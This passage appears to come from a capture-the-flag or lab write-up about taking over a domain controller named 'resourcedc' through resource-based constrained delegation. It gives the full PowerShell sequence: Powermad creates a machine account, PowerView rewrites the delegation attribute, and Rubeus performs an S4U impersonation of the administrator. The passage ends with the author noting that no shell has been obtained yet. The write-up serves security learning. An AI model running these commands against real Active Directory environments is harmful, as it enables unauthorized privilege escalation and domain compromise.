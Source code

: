 This means that the user has full control over the DC and we can basically do whatever we want. We can abuse this to get an administrator shell via RCBD:

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution" %}

Bloodhound also provides some commands to abuse this. Here are the commands I used:

<pre class="language-powershell"><code class="lang-powershell"><strong>## import modules
</strong><strong>. .\powermad.ps1
</strong>. .\power.ps1
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Password@123' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer resourcedc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe hash /password:Password@123 ## A29F7623FD11550DEF0192DE9246F46B
.\Rubeus.exe s4u /user:attackersystem$ /rc4:A29F7623FD11550DEF0192DE9246F46B /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /ptt
</code></pre>

Once we have run these, it should work and we can check `klist` to see that we have the administrator's ticket:

<figure><img src="../../../.gitbook/assets/image (1759).png" alt=""><figcaption></figcaption></figure>

However, even with this ticket, it appears we still cannot access the administrator's desktop (and also we still don't have a shell...)

<figure><img src="../../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>
